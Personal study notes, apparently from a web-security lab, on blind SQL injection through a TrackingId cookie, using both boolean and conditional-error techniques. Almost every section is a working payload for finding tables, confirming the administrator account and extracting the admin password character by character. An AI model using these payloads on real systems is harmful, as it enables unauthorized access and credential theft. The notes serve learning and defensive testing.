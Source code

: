 ##### Dump the existence tables
```SQL
Cookie: TrackingId=f6twzc7vSfDv8yrg'+and+(select+'x'+from+users+limit+1)='x'-- => weclome back ? => users table exists'
-- here we will brute force agains the table_name till we get welcome back message
```
##### confirm a specific user existence
```sql
Cookie: TrackingId=f6twzc7vSfDv8yrg'+and+(select+'x'+from+users+where+user_name='administrator')='x'-- => weclome back ? => users table exists'
-- here if we know there is a user called administrator, we will brute force the column name untill we get a welcome back message
-- vise versa, if we know that there is a column called username, we will brute force the valid users => valid user = welcome back message
```
##### Get the length of the admin password
```SQL
Cookie: TrackingId=f6twzc7vSfDv8yrg'+and+(select+'x'+from+users+where+username='administrator' and length(password)=20)='x'-- ' 
-- u will try out the values from 1 to 50 e.g , the attempt within the response that contains the welcome back message will be the password length, in our case it's 20
```
##### Get the password of the admin 
```sql
Cookie: TrackingId=f6twzc7vSfDv8yrg'+and+(select+SUBSTRING(password,1,1)+from+users+where+username='administrator' and length(password)=20)='a'-- ' 
-- we will check the first char of the password, if it's a, check the second char, if not, check the b, c, d etc .. 
-- weheather u use burp intruder, sqlmap, or a custom python script to achive this mission
```
- ![[Pasted image 20230908013018.png]]

#### Conditional errors
- a diff in response status based on errors 
```sql
Cookie: TrackingId=fLnCztNur00UGAsB'||(SELECT+CASE+WHEN+(1=2)+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+dual)-- => true condition => error 500'
```
##### Dump the existence tables
```sql
Cookie: TrackingId=fLnCztNur00UGAsB'||(SELECT+CASE+WHEN+((select+'a'+from+users+where+rownum=1)='a')+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+dual)-- => true condition => error 500 => there is a table called users'
-- here we will brute force agains the table_name till we get welcome back message
```
##### Confirm a specific user existence
```sql
Cookie: TrackingId=fLnCztNur00UGAsB'||(SELECT+CASE+WHEN+((select+'a'+from+users+where+username='administrator')='a')+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+dual)-- => true condition => error 500 => there is a user called administrator
```
##### Get the length of the admin password
```sql
Cookie: TrackingId=fLnCztNur00UGAsB'||(SELECT+CASE+WHEN+((select+'a'+from+users+where+username='administrator' and length(password)=20)='a')+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+dual)-- => true condition => error 500 => the password length is 20 '
-- u will try out the values from 1 to 50 e.g , the attempt within the response that code is 500 error message will be the password length, in our case it's 20
```
##### Get the Admin's password
```sql
Cookie: TrackingId=fLnCztNur00UGAsB'||(SELECT+CASE+WHEN+((select+SUBSTR(password,1,1)+from+users+where+username='administrator')='a')-- => true condition => error 500 => there first letter is a 
```
- ![[Pasted image 20230908030150.png]]